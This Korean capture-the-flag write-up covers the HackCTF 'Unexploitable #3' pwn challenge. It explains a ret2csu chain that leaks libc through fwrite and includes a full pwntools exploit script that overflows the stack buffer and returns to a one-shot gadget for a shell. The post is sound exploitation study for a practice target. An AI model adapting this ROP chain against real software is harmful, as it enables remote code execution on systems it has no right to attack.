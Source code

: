 ```yaml
---
title: "[HackCTF]Unexploitable #3"
date: 2019-12-26
tags: [HackCTF]
categories: [HackCTF]
---
```


이번에는 RTC 응용해서 익스할 수 있는 문제다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-10h]

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  fwrite("Impossible RTL ha? Nothing for you!\n", 1uLL, 0x24uLL, stdout);
  fgets(&s, 256, stdin);
  return 0;
}
```

메인에서는 리턴 주소 바꿀 수 있다. `gift` 함수를 잘 보면 이번에는 system gadget을 안줬다.

여기서 leak을 할 때 쓸만한 함수는 fwrite 하나밖에 없다. 이를 이용해서 leak을 해주면 된다.

근데 RTC는 인자를 `rdi`, `rsi`, `rdx` 이 3개밖에 못 넣어준다. 

![](https://user-images.githubusercontent.com/32904385/71459626-c38fcb00-27eb-11ea-8be2-fdae1d2716bc.png)

gift함수를 자세히보면 `mov rcx, [rdi] ret` 가젯이 존재했다. 이를 통해서 4번째 인자에 값을 넣어줄 수 있었다.

![](https://user-images.githubusercontent.com/32904385/71471675-a3740200-2813-11ea-9758-b791588b2f58.png)

stdout도 존재하니까 이걸 `mov rcx, [rdi] ret` 를 이용해서 4번째 인자에 넣어주면 된다.

`__libc_csu_init` 영역을 이용해서 `fwrite(fwrite_got,1,6,stdout)`  이런식으로 가젯을 맞춰주면 fwrite을 통해 libc base를 구할 수 있고 메인으로 간다음에 라이브러리 맞춰주고 oneshot gadget구해서 리턴해주면 쉘을 흭득할 수 있다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./Unexploitable_3')
#p = process('./Unexploitable_3')
p = remote('ctf.j0n9hyun.xyz',3034)
libc = e.libc
csu_call = 0x0000000000400720
csu_pop = 0x000000000040073A
mov_ret = 0x0000000000400658 # 00658 mov     rcx, [rdi]
stdout = 0x0000000000601050
prdi = 0x0000000000400743 # pop rdi ; ret

# rdi rsi rdx rcx
def chain(r12,edi,rsi,rdx,ret):
	c = ''
	c += p64(csu_pop)
	c += p64(0)
	c += p64(1)
	c += p64(r12) # call
	c += p64(rdx) # 3
	c += p64(rsi) # 2
	c += p64(edi) # 1
	c += p64(ret)
	return c

payload = '\x90'*0x10
payload += 'realsung'
payload += p64(prdi)
payload += p64(stdout)
payload += p64(mov_ret)
payload += chain(e.got['fwrite'],e.got['fwrite'],1,6,csu_call)
payload += chain(0,0,0,0,e.symbols['main'])
p.sendlineafter('!\n',payload)

libc_base = u64(p.recv(6).ljust(8,'\x00')) - libc.symbols['fwrite']
log.info('libc_base : ' + hex(libc_base))

payload2 = '\x90'*0x10
payload2 += 'realsung'
payload2 += p64(libc_base + 0x45216)
p.sendlineafter('!\n',payload2)

p.interactive()
```

